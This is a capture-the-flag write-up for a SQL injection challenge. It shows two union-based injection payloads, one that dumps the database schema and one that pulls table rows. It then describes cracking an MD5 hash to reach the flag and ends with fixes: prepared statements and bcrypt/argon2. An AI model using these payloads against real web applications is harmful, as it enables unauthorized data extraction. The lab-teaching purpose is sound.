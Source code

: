 # How

SQL injections occur when untrusted user input is passed into a SQL query.
The resulting query can be modified to return other data, deleting tables, ...

In our case, the output of the query is reflected on the page, so we can
use a UNION injection to extract data.

Dump the schema:

```
id=9 UNION SELECT CONCAT(table_schema,table_name),column_name from information_schema.columns-- -
```

The `information_schema` table holds info about all databases.
Works with MySQL, PostgreSQL and MSSQL.

Extract data from the list_images table:

```
id=9 UNION SELECT url,comment FROM Member_images.list_images-- -
```

One of the rows shows how to get the flag:

```
Title: If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
```

crack MD5 with `hashcat` -> albatroz -> sha256 -> f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188

# Fix

- Don't use MD5 to hash passwords (use argon2 or bcrypt instead)
- Use prepared statements. Example in PHP:

```
$id = $_GET["id"];

$pdo = new PDO(
    dsn: "mysql:host=localhost;dbname=list_images;charset=utf-8;port=3306",
    username: "username",
    password: "password",
);
$stmt = $pdo->prepare("SELECT * FROM images WHERE id = ?");
$stmt->execute([$id]);
```
